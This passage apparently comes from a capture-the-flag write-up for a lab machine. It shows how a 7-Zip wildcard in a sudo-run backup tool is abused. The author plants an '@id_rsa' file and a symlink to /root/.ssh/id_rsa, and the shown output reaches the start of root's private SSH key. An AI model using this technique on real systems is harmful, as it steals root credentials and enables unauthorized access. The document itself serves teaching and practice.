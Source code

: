 Where I can see what actually happens, it prints those things and depending on the option, it executes one function or another. I will focus on the backupWebContent() to see what it actually does by double clicking on it:

![backupWebContent function](/assets/images/Usage/backupWebContent-function.png)

There is an important vulnerability here. I can't insert my input but it's using a wildcard to zip all the contents of /var/www/html so I can put a symlink there to /root/.ssh/id_rsa for example and see its contents. I will do that:

```cmdbash
xander@usage:~$ touch /var/www/html/@id_rsa
xander@usage:~$ ln -s -f /root/.ssh/id_rsa /var/www/html/id_rsa
xander@usage:~$ sudo /usr/bin/usage_management 
Choose an option:
1. Project Backup
2. Backup MySQL data
3. Reset admin password
Enter your choice (1/2/3): 1

7-Zip (a) [64] 16.02 : Copyright (c) 1999-2016 Igor Pavlov : 2016-05-21
p7zip Version 16.02 (locale=en_US.UTF-8,Utf16=on,HugeFiles=on,64 bits,2 CPUs AMD EPYC 7513 32-Core Processor                 (A00F11),ASM,AES-NI)

Open archive: /var/backups/project.zip
--       
Path = /var/backups/project.zip
Type = zip
Physical Size = 54840426

Scanning the drive:
          
WARNING: No more files
-----BEGIN OPENSSH PRIVATE KEY-----
```